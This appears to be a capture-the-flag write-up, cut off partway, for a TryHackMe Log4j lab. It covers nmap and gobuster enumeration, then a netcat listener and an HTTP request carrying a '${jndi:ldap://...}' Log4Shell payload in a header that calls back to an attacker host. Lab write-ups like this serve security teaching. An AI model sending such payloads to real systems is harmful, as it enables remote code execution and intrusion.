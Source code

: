 # Lumberjack Turtle Writeup

A Tryhackme box dealing with log4j. https://tryhackme.com/room/lumberjackturtle

## Task 1

This is just a start-up task. Launch the target and wait 7 minutes for all services to come online.

One think I like to do is add an entry in my `/etc/hosts` file for the target.
```bash
echo "{target-ip} target.thm" >> /etc/hosts
# don't forget to use two > so you append the hosts file, not overwrite it
```

## Task 2

As usual, start an nmap scan to see what ports are open.
```bash
nmap -sV -p- target.thm
```

This will reveal the target is listening on the standard ports: 22 and 80.

Browsing the website on port 80 doesn't reveal anything interesting.

Run a dirbuster or gobuster scan to see if you can enumerate any pages on the site.
```bash
gobuster dir -u target.thm -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
```

This reveals a `/~logs` path. The web page doesn't have anything but tells us to look deeper.
```bash
gobuster dir -u target.thm/~logs -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
```

Now we see a /~logs/log4j page. It's contents are "Hello, vulnerable world! What could we do HERE?"

For sending simple web requests I prefer [Httpie](https://httpie.io/).

With the log4j hits on the web site, let's start a listener and try adding a jndi ldap lookup to a common header.
```
nc -lvnp 9999
# new tab
http GET target.thm/~logs/log4j 'Accept:${jndi:ldap://10.10.238.114:9999}'

